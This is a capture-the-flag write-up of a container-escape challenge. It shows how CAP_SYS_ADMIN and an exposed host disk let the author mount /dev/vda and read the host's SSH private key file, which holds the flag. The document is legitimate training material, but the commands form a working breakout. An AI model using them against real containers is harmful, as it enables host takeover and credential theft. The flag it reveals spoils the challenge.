

# Prison Escape

### Background

This task asks us to escape a running container and find a file on the host operating system.

### Challenge
:::info Question
Escape from a container. Get hints for this challenge from Bow Ninecandle in the Elfen Ring. What hex string appears in the host file /home/jailer/.ssh/jail.key.priv?
:::

Once we're inside our container prison, we start out by checking what we're allowed to do as root:

```bash
grinchum-land:/mnt$ sudo -l
User samways may run the following commands on grinchum-land:
    (ALL) NOPASSWD: ALL
```

Great! We have carte blanche to sudo whatever we'd like as root. Next, we'll check our list of Unix capabilities. Normally in a container these should be as restrictive as possible, but let's hope someone was lazy here:

```bash
grinchum-land:/mnt$ grep Cap /proc/1/status
CapInh: 0000000000000000
CapPrm: 0000003fffffffff
CapEff: 0000003fffffffff
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000
```

To decode this gibberish, we can use the ```capsh``` utility (on another host that has it)



Among the items in this list, the most useful to us by far is ```cap_sys_admin```. The [capabilities man page](https://man7.org/linux/man-pages/man7/capabilities.7.html) has more info, but this capability allows us to perform a very, very wide array of actions which would be useful for system administration. It just so happens that many of those are also capabilities that would help us break out of our current jail.

---

Going through a [helpful list of container escape strategies](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation), we don't have to look long before we notice that a disk device is, for some reason, listed under ```/dev/```:

```bash
grinchum-land:/mnt$ ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jan  7 00:59 autofs
crw------- 1 root root  10, 234 Jan  7 00:59 btrfs-control
lrwxrwxrwx 1 root root       11 Jan  7 00:59 core -> /proc/kcore
...
crw-rw---- 1 root tty    7,  70 Jan  7 00:59 vcsu6
# highlight-start
brw-rw---- 1 root disk 254,   0 Jan  7 00:59 vda
# highlight-end
crw------- 1 root root  10,  63 Jan  7 00:59 vsock
crw-rw-rw- 1 root root   1,   5 Jan  7 00:59 zero
```

Normally the disk device ```/dev/vda``` wouldn't be mounted inside of the container. However, we all know that developers will complain to senior management if they have to do an ounce of additional work, so here we are. Since we verified earlier that we have the ```CAP_SYS_ADMIN``` capability (which helpfully lets us mount and unmount things), we can now easily mount this device and find the flag:

```
grinchum-land:~$ sudo mount /dev/vda /mnt/
grinchum-land:~$ ls -l /mnt/
.dockerenv  etc/        lib64/      mnt/        run/        tmp/        
bin/        home/       libx32/     opt/        sbin/       usr/        
boot/       lib/        lost+found/ proc/       srv/        var/        
dev/        lib32/      media/      root/       sys/        
grinchum-land:~$ ls -la /mnt/home/jailer/
total 12
drwxr-xr-x 3 root root 4096 Dec  1 19:12 .
drwxr-xr-x 3 root root 4096 Dec  1 19:12 ..
drwxr-xr-x 2 root root 4096 Dec  1 19:12 .ssh
grinchum-land:~$ ls -la /mnt/home/jailer/.
./    ../   .ssh/ 
grinchum-land:~$ ls -la /mnt/home/jailer/.ssh/
total 12
drwxr-xr-x 2 root root 4096 Dec  1 19:12 .
drwxr-xr-x 3 root root 4096 Dec  1 19:12 ..
-rw-rw-rw- 1 root root 1555 Nov  3 23:36 jail.key.priv
-rw-rw-rw- 1 root root    0 Nov  7 18:54 jail.key.pub
grinchum-land:~$ cat /mnt/home/jailer/.ssh/jail.key.priv 

                Congratulations! 

          You've found the secret for the 
          HHC22 container escape challenge!

                     .--._..--.
              ___   ( _'-_  -_.'
          _.-'   `-._|  - :- |
      _.-'           `--...__|
   .-'                       '--..___
  / `._                              \
   `. `._               one           |
     `. `._                           /
       '. `._    :__________....-----'
         `..`---'    |-_  _- |___...----..._
                     |_....--'             `.`.
               _...--'                       `.`.
          _..-'                             _.'.'
       .-'             step                _.'.'
       |                               _.'.'
       |                   __....------'-'
       |     __...------''' _|
       '--'''        |-  - _ |
               _.-''''''''''''''''''-._
            _.'                        |\
          .'                         _.' |
          `._          closer           |:.'
            `._                     _.' |
               `..__                 |  |
                    `---.._.--.    _|  |
                     | _   - | `-.._|_.'
          .--...__   |   -  _|
         .'_      `--.....__ |
        .'_                 `--..__
       .'_                         `.
      .'_    082bb339ec19de4935867   `-.
      `--..____                        _`.
               ```--...____          _..--'
                     | - _ ```---.._.'
                     |   - _ |
                     |_ -  - |
                     |   - _ |
                     | -_  -_|
                     |   - _ |
                     |   - _ |
                     | -_  -_|
grinchum-land:~$ 
```
